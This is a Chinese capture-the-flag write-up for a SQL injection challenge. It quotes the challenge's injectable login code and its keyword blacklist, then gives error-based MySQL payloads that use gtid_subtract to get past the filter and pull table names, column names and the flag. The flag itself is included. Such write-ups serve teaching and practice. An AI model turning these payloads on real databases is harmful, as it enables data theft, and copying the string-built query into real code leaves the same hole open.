 wdSimpleSQLv4 500 points
================

题意
-------------

会长把我打的半残，还威胁我不要放题。为了小命着想，我决定直接放大招。

(PS: Attachment updated at 2018-09-25 01:32 UTC+8)

http://host:port

attachment: wdSimpleSQLv4.zip

解题步骤
-------------

这次更换了注入点到注册的页面上，相关代码如下：

```
self.blacklist = re.compile(r'gtid_subset|updatexml|extractvalue|floor|rand|exp|json_keys|uuid_to_bin|bin_to_uuid|union|like|hash|sleep|benchmark| |;|\*|\+|-|/|<|>|~|!|\d|%|\x09|\x0a|\x0b|\x0c|\x0d|`', flags=re.I|re.M)
# omitted...
if self.blacklist.search(username):
    response['Error'] = "T_T, what are you doing?"
    self.render("login.html", error=response['Error'])
    return
sql = "select uid, username, password from users where username = '%s'" % username
try:
    users = self.db.query(sql)
except MySQLdb.Error as e:
    # 500
    response['Error'] = str(e[1])
    self.render("login.html", error=response['Error'])
    return
except Exception as e:
    # 500
    response['Error'] = 'Invalid Username or Password'
    self.render("login.html", error=response['Error'])
    return
# omitted...
```

可以看出，这是对 `MySQL Error Leak` 进行利用的题目。不过做了很多黑名单，我们需要绕过这些黑名单，错误信息的泄露用的是 `gtid_substract` 。最后得到的注入的 `SQL` 语句如下：

```
select uid, username, password from users where username = 'abc'and(select(gtid_subtract((select(right(group_concat(table_name),hex('F')))from(information_schema.tables)),'A')))#'
```

得到了最新创建的若干表名称，发现一个奇怪的 `PIsAukBsoucg` ，进而查找它的列名：

```
select uid, username, password from users where username = ''and(select(gtid_subtract((select(group_concat(column_name))from(information_schema.columns)where(table_name)='PIsAukBsoucg'),'A')))#
```

获取到了列名： `wUpWAcapJIxP` ，最后把 `flag` 获取出来：

```
select uid, username, password from users where username = ''and(select(gtid_subtract((select(wUpWAcapJIxP)from(PIsAukBsoucg)),'A')))#
```

最后得到了 `flag: THUCTF{ST_hAs_s0_mANy_u34ful_FunC}` 。从这个名字可以看出，出题者想考的大概是另一个函数，不过作用是一样的。实际利用的代码为 [wd4.py](wd4.py)。